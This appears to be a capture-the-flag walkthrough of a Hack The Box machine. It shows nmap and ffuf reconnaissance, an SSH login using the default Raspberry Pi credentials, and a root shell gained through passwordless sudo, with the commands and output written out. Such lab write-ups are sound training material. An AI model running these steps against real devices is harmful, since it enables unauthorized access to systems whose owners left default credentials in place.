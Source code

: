 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e4b58384-4838-44ae-bfbc-0e41ed94ed48)

first enumeration with nmap

```
# Nmap 7.93 scan initiated Fri Jun  2 01:02:48 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,53,80,1738,32400,32469 -Pn 10.10.10.48
Nmap scan report for 10.10.10.48
Host is up (0.15s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aaef5ce08e86978247ff4ae5401890c5 (DSA)
|   2048 e8c19dc543abfe61233bd7e4af9b7418 (RSA)
|   256 b6a07838d0c810948b44b2eaa017422b (ECDSA)
|_  256 4d6840f720c4e552807a4438b8a2a752 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
1738/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
|_http-title: Unauthorized
|_http-favicon: Plex
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun  2 01:03:12 2023 -- 1 IP address (1 host up) scanned in 24.87 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/de28261a-ac9b-4fbc-8282-5ee2ec73b4a9)

noticed a web server on port 80, opening it on a browser, there was no web page to display. let's fuzz.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Mirai]
└─$ ffuf -u "http://10.10.10.48/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/common.txt -fc 403,404,500 -e .bak,.php,.txt,.tar,.zip -ic -fs 91,101

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.48/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Extensions       : .bak .php .txt .tar .zip 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 91,101
 :: Filter           : Response status: 403,404,500
________________________________________________

_framework/blazor.webassembly.js [Status: 200, Size: 61, Words: 10, Lines: 2, Duration: 204ms]
admin                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 160ms]
swfobject.js            [Status: 200, Size: 61, Words: 10, Lines: 2, Duration: 165ms]
:: Progress: [28278/28278] :: Job [1/1] :: 246 req/sec :: Duration: [0:03:01] :: Errors: 82 ::
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e6cd0a3c-e8a8-4a8b-8004-e75842a22994)

navigating to the admin dir, we can see it is running a `PI-Hole` service.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/adc53ccf-aa20-4672-8d20-cfc0841f0851)

checking the login page, tried to login with default creds, none worked 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1af209e8-3cd6-4c50-a535-f7ab32a06785)

checked google for `pihole` default password, and got `pi:raspberry`. let's try login ssh using this creds.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Mirai]
└─$ ssh pi@mirai.htb          
The authenticity of host 'mirai.htb (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:101: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'mirai.htb' (ED25519) to the list of known hosts.
pi@mirai.htb's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun  2 08:03:17 2023 from 10.10.14.16

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~$ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~$
```
bull's eye we logged in ssh.


## Privilege Escalation

```
pi@raspberrypi:~$ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~$ sudo su
root@raspberrypi:/home/pi# cd
root@raspberrypi:~# 
```
checking sudo privs, we can see we are allowed to run sudo without password `sudo su` got use a root shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cdcb9b9a-b229-4d95-8f69-9309a94865ad)

and we are through 😜 had fun yeah?
